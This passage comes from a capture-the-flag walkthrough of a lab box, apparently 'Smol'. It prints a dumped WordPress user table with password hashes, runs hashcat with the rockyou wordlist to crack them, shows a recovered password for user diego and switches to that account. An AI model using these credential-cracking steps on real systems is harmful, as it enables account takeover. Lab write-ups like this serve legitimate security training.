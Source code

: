 Transferred and opened this file on our attacker machine and found some hashes of the users on the box.

```sql
INSERT INTO `wp_users` VALUES (1,'admin','$P$Bvi8BHb84pjY/Kw0RWsOXUXsQ1aACL1','admin','admin@smol.thm','http://192.168.204.139','2023-08-16 06:58:30','',0,'admin'),(2,'wpuser','$P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E.','wp','wp@smol.thm','http://smol.thm','2023-08-16 11:04:07','',0,'wordpress user'),(3,'think','$P$B0jO/cdGOCZhlAJfPSqV2gVi2pb7Vd/','think','josemlwdf@smol.thm','http://smol.thm','2023-08-16 15:01:02','',0,'Jose Mario Llado Marti'),(4,'gege','$P$BsIY1w5krnhP3WvURMts0/M4FwiG0m1','gege','gege@smol.thm','http://smol.thm','2023-08-17 20:18:50','',0,'gege'),(5,'diego','$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1','diego','diego@smol.thm','http://smol.thm','2023-08-17 20:19:15','',0,'diego'),(6,'xavi','$P$BvcalhsCfVILp2SgttADny40mqJZCN/','xavi','xavi@smol.thm','http://smol.thm','2023-08-17 20:20:01','',0,'xavi');
```

Lets try to crack these hashes using hashcat.

```bash
hashcat -m 400 hashes.txt /usr/share/wordlists/rockyou.txt
```

![image.png](/assets/images/Smol_THM/image%2021.png)

Cracked one hash for diego:santiagocalifornia

Lets switch our user to Diego.

```bash
su diego
```
